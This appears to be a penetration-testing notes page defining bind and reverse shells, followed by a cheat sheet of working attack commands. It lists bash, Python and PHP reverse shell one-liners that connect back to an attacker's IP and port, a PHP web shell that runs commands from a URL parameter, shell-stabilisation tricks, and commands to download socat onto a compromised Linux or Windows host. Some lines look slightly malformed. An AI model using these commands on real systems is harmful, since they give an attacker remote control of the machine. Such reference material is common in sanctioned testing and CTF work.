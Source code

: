 # Bind and Reverse Shells Defined

For a listing of reverse shells see [[Reverse-Shells-Listing]]


# Bind and Reverse Shells Definition

- Bind DEFINE: opposite of a reverse shell. The listener is on the target machine.

- Reverse DEFINE: opposite of a bind shell. The listener is on the attacker machine.

## Linux Shells
bash nc -e workaround
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

python
```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ip", port)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);`

'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f")'
```

php
```php
file "<?php system($_GET['cmd']);?>"
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/ip/port 0>&1'");?>"
```

## Windows 

[windows php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

## Shell Stablisation Methods

Netcat shell stablisation
```bash
# python trick
which python # check variates
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Shells
CTRL+Z
stty raw -echo; fg
```
OR
```bash
//rlwrap trick
sudo apt install rlwrap
rlwrap nc -lvnp <port>
```
OR
stepto-socat trick
```bash
sudo python3 -m http.server 80
wget <local-ip>/socat -0 /tmp/socat
````
IF WINDOWS
```powershell
Invoke-WebRequest -uri <local-ip>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
